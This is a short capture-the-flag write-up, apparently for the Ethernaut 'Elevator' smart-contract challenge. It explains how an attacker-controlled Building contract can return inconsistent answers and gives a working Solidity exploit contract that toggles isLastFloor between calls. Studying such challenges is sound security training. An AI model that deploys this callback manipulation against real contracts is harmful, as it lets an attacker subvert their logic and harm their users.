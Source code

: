 # Requirements

- This elevator won't let you reach the top of your building. Right?

# Attack explanation

We can control the address from which the Building instance is created.

What we are going to do is to create our own Building contract and implement isLastFloor following with a similar structure but different behaviour. To solve the challenge, we must make the function return false when it is run the first time and then it should return true if run a second time, all within a single call to the goTo function.

# Attack function

We could solve the challenge by just using the following attack proxy sc:

```
contract FakeElevator {
  bool public toggle = true;
  Elevator public elev;

  constructor(address _target) {
      elev = Elevator(_target);
  }

  function isLastFloor(uint256) public returns (bool) {
      toggle = !toggle;
      return toggle;
  }

  function setTop(uint256 _floor) public {
      elev.goTo(_floor);
  }
}
```
